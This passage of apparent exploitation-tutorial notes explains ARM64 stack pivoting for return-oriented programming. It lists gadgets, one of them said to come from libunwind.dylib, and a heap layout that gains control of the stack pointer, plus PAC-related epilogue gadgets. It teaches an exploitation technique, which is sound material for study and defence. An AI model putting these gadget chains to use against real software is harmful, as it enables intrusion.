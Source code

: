 - Example just 1 gadget:

```
mov sp, x0; ldp x29, x30, [sp], #0x10; ret;

The `mov sp, x0` instruction sets the stack pointer to the value in `x0`, effectively pivoting the stack to a new location. The subsequent `ldp x29, x30, [sp], #0x10; ret;` instruction loads the frame pointer and return address from the new stack location and returns to the address in `x30`.
```

```
I found this gadget in libunwind.dylib
If x0 points to a heap you control, you can control the stack pointer and move the stack to the heap, and therefore you will control the stack.

0000001c61a9b9c:
    ldr x16, [x0, #0xf8];    // Control x16
    ldr x30, [x0, #0x100];   // Control x30
    ldp x0, x1, [x0];        // Control x1
    mov sp, x16;             // Control sp    
    ret;                     // ret will jump to x30, which we control

To use this gadget you could use in the heap something like:
  <address of x0 to keep x0>     # ldp x0, x1, [x0]
  <address of gadget>            # Let's suppose this is the overflowed pointer that allows to call the ROP chain
  "A" * 0xe8 (0xf8-16)           # Fill until x0+0xf8
  <address x0+16>                # Lets point SP to x0+16 to control the stack
  <next gadget>                  # This will go into x30, which will be called with ret (so add of 2nd gadget)
```

- Example multiple gadgets:

```
// G1: Typical PAC epilogue that restores frame and returns
// (seen in many leaf/non-leaf functions)
G1:
    ldp     x29, x30, [sp], #0x10     // restore FP/LR
    autiasp                          // **PAC check on LR**
    retab                            // **PAC-aware return**

// G2: Small helper that (dangerously) moves SP from FP
// (appears in some hand-written helpers / stubs; good to grep for)
G2:
    mov     sp, x29                  // **pivot candidate**
    ret

// G3: Reader on the new stack (common prologue/epilogue shape)
G3:
    ldp     x0, x1, [sp], #0x10      // consume args from "new" stack
    ret
```
